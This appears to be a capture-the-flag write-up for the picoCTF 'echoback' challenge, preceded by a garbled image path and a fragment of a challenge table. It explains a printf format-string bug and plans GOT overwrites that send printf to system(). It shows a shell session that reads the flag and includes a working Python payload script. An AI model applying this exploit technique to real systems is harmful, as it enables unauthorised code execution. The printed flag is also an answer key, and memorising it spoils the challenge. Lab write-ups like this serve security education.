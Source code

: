 | [Secure Logon](#secure-logon) | Braeden | ... | crypto |
| [SpyFi] | Braeden, Adam | ... | crypto |
| [circuit123] | Adam | ... | z3, crypto




## echoback

`echoback` is a simple program which takes input from `stdin` via `read()` and echoes it to `stdout` through `printf()`. The vulnerability in this particular program is due to the incorrect usage of the `fmt` argument to `printf()`. Unfortunately for us, landing a shell is not going to be as simple as overwriting a single `.got` entry with the address of `system()`. The challenge organisers hint that we might need to overwrite more than one location in memory, this isn't a big deal, it just complicates the exploitation process slightly.

So, after a bit of thinking, here's how the program should be exploited:
1. We overwrite the `.got` entry for `printf` at `0x0804a010` with the address of `system` at `0x08048460`.
2. The `.got` entry for `puts` at `0x0804a01c` is overwritten with the address of `vuln` at `0x080485ab`.
3. `printf` then reads our malicious format string and overwrites the aforementioned memory addresses.
4. The call to `puts` after `printf` jumps to the start of `vuln` instead of `puts`.
5. The `vuln` function then executes `read` and waits for us to enter `/bin/sh` as input for `printf` which now calls `system`
6. We get a shell!

```
input your message:
sh
id
uid=1161(echo-back_0) gid=1162(echo-back_0) groups=1162(echo-back_0)
ls -la
total 76
drwxr-x---   2 hacksports echo-back_0  4096 Sep 28 07:39 .
drwxr-x--x 576 root       root        53248 Sep 30 03:45 ..
-rwxr-sr-x   1 hacksports echo-back_0  7684 Sep 28 07:39 echoback
-rw-rw-r--   1 hacksports hacksports    364 Sep 28 07:39 echoback.c
-r--r-----   1 hacksports echo-back_0    54 Sep 28 07:39 flag.txt
-rwxr-sr-x   1 hacksports echo-back_0   116 Sep 28 07:39 xinet_startup.sh
cat flag.txt
picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_ee5a92ac}
```
### get.py

```python
#!/usr/bin/python2

payload = '\x12\xa0\x04\x08'
payload += '\x10\xa0\x04\x08'
payload += '\x1e\xa0\x04\x08'
payload += '\x1c\xa0\x04\x08'
payload += '%2036x%7$hn'	# printf() 0x0804a010 -> 0x08048460 system()
payload += '%31836x%8$hn'
payload += '%33700x%9$hn'	# puts() 0x0804a01c -> 0x080485ab vuln()
payload += '%32167x%10$hn'

print payload
```
